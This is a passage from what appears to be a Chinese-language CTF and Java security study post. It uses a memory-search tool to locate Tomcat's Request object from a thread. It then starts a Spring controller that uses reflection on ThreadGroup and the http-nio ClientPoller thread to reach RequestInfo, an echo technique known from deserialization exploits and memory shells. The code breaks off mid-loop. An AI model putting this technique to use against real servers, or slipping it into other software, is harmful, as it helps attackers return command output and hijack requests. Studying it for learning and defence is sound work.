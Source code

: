 ```java
        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
        //打开调试模式
        searcher.setIs_debug(true);
        //挖掘深度为20
        searcher.setMax_search_depth(50);
        //设置报告保存位置
        searcher.setReport_save_path("C:\\Users\\bmth\\Desktop\\作业\\CTF学习\\java学习");
        searcher.searchObject();
    }
}
```
找到一个链子
![](https://img-blog.csdnimg.cn/37f1b73f282743c490fdffdec635a1e7.png)
debug看一下，确实存在Request对象
![](https://img-blog.csdnimg.cn/a2990869dc39477cac42ccba38fdfcc6.png)

接下来进行构造，存在两个问题：
1.`org.apache.tomcat.util.threads.TaskThread`中没有group，该类继承了Thread
Thread类中存在group
![](https://img-blog.csdnimg.cn/ea2d2da2e19e4f75ac94fdf0db19e55e.png)
2.发现thread每一次都是不一样的(第二次变为14了)，那么这里需要获取线程的名称对thread进行定位
![](https://img-blog.csdnimg.cn/878e888aba2f440e89d24414e5353989.png)

最后拿到RequestInfo，就和前面的流程一样了
```java
import org.apache.catalina.connector.Response;
import org.apache.catalina.connector.ResponseFacade;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.RequestInfo;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@Controller
@RequestMapping("/app")
public class Echo3Controller {
    @RequestMapping("/test3")
    @ResponseBody
    public void testDemo() throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Thread thread = Thread.currentThread();
        try {
            //获取group
            Field group = Class.forName("java.lang.Thread").getDeclaredField("group");
            group.setAccessible(true);
            ThreadGroup threadGroup = (ThreadGroup) group.get(thread);

            //获取thread
            Field threads = Class.forName("java.lang.ThreadGroup").getDeclaredField("threads");
            threads.setAccessible(true);
            Thread[] thread1 = (Thread[]) threads.get(threadGroup);

            //获取target
            for (Thread thread2 : thread1) {
                if (thread2.getName().contains("http-nio") && thread2.getName().contains("ClientPoller")) {
                    Field target = Class.forName("java.lang.Thread").getDeclaredField("target");
```